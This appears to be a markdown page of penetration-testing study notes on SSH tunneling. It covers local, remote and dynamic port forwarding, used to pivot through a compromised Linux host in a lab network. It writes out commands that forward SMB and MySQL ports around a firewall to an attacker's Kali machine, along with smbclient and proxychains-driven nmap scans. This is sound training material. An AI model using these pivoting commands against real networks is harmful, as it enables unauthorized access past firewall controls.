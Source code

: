 ```yaml
---
title: Tunneling_Linux
permalink: /Tunneling/Linux
---
```

#We will not technically issue any ssh commands (-N) but will set up port forwarding (with -L), bind port 445 on our local machine (0.0.0.0:445) to port 445 on the Windows Server (192.168.1.110:445) and do this through a session to our original Linux target, logging in as student (student@10.11.0.128):
```kali@kali:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128```
At this point, any incoming connection on the Kali Linux box on TCP port 445 will be forwarded to TCP port 445 on the 192.168.1.110 IP address through our compromised Linux client.

## Finally, we can try to list the remote shares on the Windows Server 2016 machine by pointing the request at our Kali machine.

```kali@kali:~# smbclient -L 127.0.0.1 -U Administrator```

## SSH Remote Port Forwarding ##

A port is opened on the remote side of the connection and traffic sent to that port is forwarded to a port on our local machine we have access to a non-root shell on a Linux client on the internal network. On this compromised machine, we discover that a MySQL server is running on TCP port 3306. Unlike the previous scenario, the firewall is blocking inbound TCP port 22 (SSH) connections, so we can’t SSH into this server from our Internet-connected Kali machine. We can, however, SSH from this server out to our Kali attacking machine, since outbound TCP port 22 is allowed through the firewall.


0n linux client
```root@debian:~# cat /root/port_forwarding_and_tunneling/ssh_remote_port_forwarding.sh```

We will ssh out to our Kali machine as the kali user (kali@10.11.0.4), specify no commands (-N), and a remote forward (-R). We will open a listener on TCP port 2221 on our Kali machine (10.11.0.4:2221) and forward connections to the internal Linux machine’s TCP port 3306 (127.0.0.1:3306)

# Avant tout, penser à vérifier la conf 
```vim /etc/ssh/sshd_config```
# Et à restart ssh
```sudo service ssh start```

```student@debian:~$ ssh -N -R $kali_ip:2221:127.0.0.1:3306 kali@$kali_ip```

This will forward all incoming traffic on our Kali system’s local port 2221 to port 3306 on the compromised box through an SSH tunnel (TCP 22),allowing us to reach the MySQL port even though it is filtered at the firewall

```kali@kali:~$ ss -antp | grep "2221"````
```kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221```

## SSH Dynamic Port Forwarding ##

(For several ports and ips adresses)

``` kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128``` 
```kali@kali:~$ cat /etc/proxychains.conf```  
```socks4 127.0.0.1 8080```  
````kali@kali:~$ sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110```
